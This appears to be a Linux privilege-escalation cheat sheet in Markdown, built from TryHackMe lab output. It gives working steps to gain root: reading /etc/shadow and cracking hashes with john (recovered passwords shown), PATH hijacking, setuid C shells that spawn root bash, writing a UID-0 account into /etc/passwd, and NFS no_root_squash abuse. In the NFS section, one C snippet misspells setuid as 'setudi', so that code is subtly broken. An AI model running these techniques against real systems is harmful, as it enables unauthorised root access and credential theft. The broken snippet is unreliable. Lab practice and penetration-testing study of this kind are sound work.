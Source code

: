 # Linux

## Methodology

- Scripts
LinEnum - [Link](https://github.com/rebootuser/LinEnum)
LinpPeas - [Link](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

- sudo -l

Take a look at the variables like **LD_PRELOAD**
Take a look which commands you can run as sudo

```console
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl   
```



## Unshadow Passwd & Shadow

You need to download 2 files. /etc/passwd & /etc/shadow

```console
$ unshadow <passwd> <shadow> > hashes.txt
```

Then crack it with john

```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt new.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)
Password1        (user2)
test123          (gerryconway)
3g 0:00:00:13 DONE (2022-02-19 19:18) 0.2155g/s 1268p/s 1783c/s 1783C/s 111292..ellie123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Cron

read cron jobs with `/etc/crontab`

For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature

Be sure the file has `chmod +x`
## Environment var

Show PATH var
```console
echo $PATH
```

Add direcotry to PATH var
```console
export PATH=/tmp:$PATH
```

Find writeble folders
```console
$ find / -writable 2>/dev/null |cut -d "/" -f 2 | sort -u
```

```console
#!/bin/bash
/bin/bash
```
Set chmod 777

```c
#Spawn Bash C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
        return 0;
}
```
set chmod x+s

## SUID

Compare executables with [GTFOBins](https://gtfobins.github.io/)

Find SUID files:

```console
$ find / -perm -u=s -type f 2>/dev/null
```

## Writeble files

**/etc/passwd**

Format: `test:x:0:0:root:/root:/bin/bash`

1. Username: It is used when user logs in. It should be between 1 and 32 characters in length.
2. Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".

3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

```console
New entry
$ new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

## Capabilities

Find capabilities:

```console
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

Look at [GTFOBins](https://gtfobins.github.io/) for leverage

## NFS

Check /etc/exports for "no_root_squash":
```console
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Look for mountable shares:
```console
$ showmount -e 10.10.193.66
Export list for 10.10.193.66:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

Mount one shared dir with "no_root_squash":
```console
$ mkdir /tmp/shared
$ sudo mount -o rw 10.10.193.66:/home/backup /tmp/shared/
```

Create file inside shared:
```c
int main(){
        setgid(0);
        setudi(0);
        system("/bin/bash");
        return 0;
}
```
Compile the code:
```console
$ gcc root.c -o nfs -w

#ls -la
total 28
drw-r--r-- 2 root root  4096 20. Feb 12:26 .
drwxrwxrwt 1 root root   822 20. Feb 12:26 ..
-rwxr-xr-x 1 root root 16712 20. Feb 12:26 nfs
-rw-r--r-- 1 root root    71 20. Feb 12:26 root.c

```

